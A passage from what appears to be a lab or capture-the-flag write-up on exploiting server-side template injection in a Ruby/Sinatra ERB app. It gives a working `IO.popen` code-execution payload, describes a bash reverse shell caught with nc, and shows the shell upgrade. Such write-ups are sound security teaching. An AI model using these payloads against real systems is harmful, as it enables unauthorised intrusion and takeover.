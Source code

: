 Given that user input is being displayed back, it’s worth checking for SSTI. There are several templating engines for Ruby / Sinatra, but the most common on on the [intro page](https://sinatrarb.com/intro.html) is ERB.

The PayloadsAllTheThings page for [Ruby SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby---basic-injections) shows that ERB injection would be `<%= 7*7 %>`. If that displays back as 49, then I know it was run as Ruby code.

Sending that in a raw form breaks the page:

![image-20240625144147232](/img/image-20240625144147232.png)

URL-encoding the potentially bad characters (selecting from “<” through “>” in Repeater and hitting Ctrl-u) fixes that:

![image-20240625144222270](/img/image-20240625144222270.png)

It works!

#### RCE POC

To check for full execution, I’ll replace “7\*7” with `IO.popen('id').readlines()`:

![image-20240625144413233](/img/image-20240625144413233.png)

The server is running as susan, user id 1001, who is also in the sudo group.

#### Shell

To get a shell, I’ll replace `id` with a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

![image-20240625144609271](/img/image-20240625144609271.png)

On sending that, it hangs, but there’s a connection at my listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.253 57674
bash: cannot set terminal process group (1000): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$

```

I’ll upgrade my shell using the [script / stty trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

susan@perfection:~/ruby_app$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
susan@perfection:~/ruby_app$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
susan@perfection:~/ruby_app$ 

```
